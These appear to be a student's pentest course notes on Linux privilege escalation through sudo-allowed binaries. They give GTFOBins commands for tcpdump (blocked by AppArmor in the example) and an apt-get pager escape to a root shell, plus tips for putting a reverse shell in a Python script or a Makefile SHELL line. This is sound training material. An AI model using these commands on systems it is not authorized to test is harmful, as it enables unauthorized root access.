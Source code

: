 Use GTFObins[3](https://portal.offsec.com/courses/pen-200-44065/learning/linux-privilege-escalation-45403/insecure-system-components-45457/abusing-sudo-45412#fn-local_id_928-3) to look up possible attack paths for binaries

Example
	`sudo -l
```
User joe may run the following commands on debian-privesc:
    (ALL) (ALL) /usr/bin/crontab -l, /usr/sbin/tcpdump, /usr/bin/apt-get
```
ok
	crontab -l
		does not let us edit crontabs
	tcpdump
		we found something on GTFOBins
```
joe@debian-privesc:~$ COMMAND='id'
joe@debian-privesc:~$ TF=$(mktemp)
joe@debian-privesc:~$ echo "$COMMAND" > $TF
joe@debian-privesc:~$ chmod +x $TF
joe@debian-privesc:~$ sudo tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
[sudo] password for joe:
dropped privs to root
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
...
compress_savefile: execlp(/tmp/tmp.c5hrJ5UrsF, /dev/null) failed: Permission denied
```
Permission denied
	Inspect syslog for why
```
joe@debian-privesc:~$ cat /var/log/syslog | grep tcpdump
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```
AppArmor blocked us
	App Armor provides mandatory access control (MAC)
	Apt-get?
		GTFOBin
			we see a payload
		`sudo apt-get changelog apt
		`!/bin/sh
		Success!




if we need to modify a python script, when inputting a rev shell, only input from 'import' onwards, do not include the python3 preface


Example 2: Make

if you have sudo over a command that does `make install`, check where this is working
	if you have a Makefile and privs over it, you can modify the SHELL key to a rev shell (within a file)
		`vim revshell` in /tmp/
		`SHELL = /bin/bash /tmp/revshell`
		then use the sudo command you habe to execute the Makefile
###### Exploiting Kernel Vulnerabilities
